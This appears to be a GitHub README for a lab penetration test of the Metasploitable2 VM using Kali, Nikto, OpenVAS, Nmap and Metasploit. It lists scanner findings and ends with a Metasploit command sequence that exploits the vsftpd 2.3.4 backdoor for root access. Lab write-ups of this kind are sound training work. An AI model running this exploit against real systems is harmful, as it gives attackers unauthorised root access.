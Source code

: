 # Penetration Testing on Metasploitable2

## Overview
This project involves conducting penetration testing on the Metasploitable2 virtual machine using **Kali Linux**. The main objective was to identify and exploit vulnerabilities in web and network services while documenting findings.

## Tools Used
- **Metasploitable2**: A vulnerable Linux VM for penetration testing.
- **Kali Linux**: The attacker machine.
- **Nikto**: Web vulnerability scanner.
- **OpenVAS**: Network vulnerability assessment tool.
- **Metasploit Framework**: Exploitation tool.
- **Nmap**: Network scanner.

## Findings
### **Web Vulnerabilities (Nikto)**
- **Clickjacking** (CWE-1021): Anti-clickjacking X-Frame-Options header missing.
- **Directory Browsing**: Exposes sensitive files.

### **Network Vulnerabilities (OpenVAS)**
- **DistCC Remote Code Execution (CVE-2004-2687)**: Unauthenticated remote command execution.
- **vsftpd 2.3.4 Backdoor (CVE-2011-2523)**: Backdoor allowing root access.
- **OpenSSL MITM Attack (CVE-2014-0224)**: SSL/TLS vulnerability allowing traffic interception.

## Exploitation Demonstrations
### **1. Exploiting vsftpd 2.3.4 Backdoor**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
whoami  # Confirms root access

